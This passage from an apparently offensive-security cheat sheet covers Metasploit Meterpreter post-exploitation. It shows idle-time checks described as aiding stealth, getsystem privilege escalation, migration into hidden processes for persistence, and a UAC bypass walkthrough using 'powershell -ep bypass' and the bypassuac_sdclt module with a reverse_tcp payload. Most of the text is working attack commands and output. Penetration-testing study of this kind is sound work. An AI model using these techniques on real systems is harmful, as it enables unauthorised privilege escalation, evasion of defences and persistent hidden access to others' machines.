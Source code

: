 ### Inactivity Check

Determines user inactivity; useful for stealth.

```bash
meterpreter > idletime
```

### Privilege Escalation

Attempts `SYSTEM`-level access using techniques like Named Pipe Impersonation leveraging the `SeImpersonatePrivilege` and `SeDebugPrivilege`.

```
meterpreter > getsystem
```

### **Process Migration**

Moves session to another process to maintain stealth/persistence. Migration is only possible to processes with equal or lower security levels.

```bash
meterpreter > ps
meterpreter > migrate <PID>
```

If no suitable existing process is available, it can start a hidden process and migrate into it.

```bash
execute -H -f notepad
migrate <PID>
```

## Modules

### UAC Bypass

A typical client-side attack usually provides only an unprivileged shell. However, when the target user is a `local administrator`, we can attempt to elevate the shell's integrity level by bypassing User Account Control (UAC).

The process below (`5656`) is running with a **medium integrity level**, meaning administrative actions would still be blocked by UAC.

{% code overflow="wrap" %}
```powershell
# Identify current privilege/integrity level
meterpreter > shell
Process 5656 created.
...
C:\Windows\system32>powershell -ep bypass
PS C:\Windows\system32> Import-Module NtObjectManager
PS C:\Windows\system32> Get-NtTokenIntegrityLevel
Medium

# Escalate privileges
PS C:\Windows\system32> ^Z
Background channel 1? [y/N]  y
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > search UAC
... 
   21  exploit/windows/local/bypassuac_sdclt                  2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Shell Open Registry Key)
...
 msf6 exploit(multi/handler) > use 21
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```